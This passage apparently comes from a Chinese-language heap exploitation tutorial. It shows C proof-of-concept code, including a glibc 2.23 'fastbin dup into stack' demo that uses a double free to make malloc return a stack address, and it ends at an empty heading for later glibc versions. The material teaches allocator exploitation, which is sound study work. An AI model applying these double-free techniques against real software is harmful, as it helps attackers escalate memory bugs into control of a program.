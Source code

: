 ```C
	void *p3 = malloc(CHUNK_SIZE);

	assert(p3 == p2);

	printf("and both point to the same tcache sized chunk. p2=%p p3=%p\n", p2, p3);

	return 0;
}
```

## fastbin dup into stack

### POC精简

#### glibc 2.23

```C
#include <stdio.h>
#include <stdlib.h>

int main()
{
	unsigned long long stack_var;

	fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

	int *a = malloc(8);
	int *b = malloc(8);
	int *c = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", a);
	fprintf(stderr, "2nd malloc(8): %p\n", b);
	fprintf(stderr, "3rd malloc(8): %p\n", c);

	free(a);
	free(b);
	free(a);
	unsigned long long *d = malloc(8);

	fprintf(stderr, "1st malloc(8): %p\n", d);
	fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
	stack_var = 0x20;
	*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

	fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
	fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```



#### glibc 2.27 - glibc 2.39
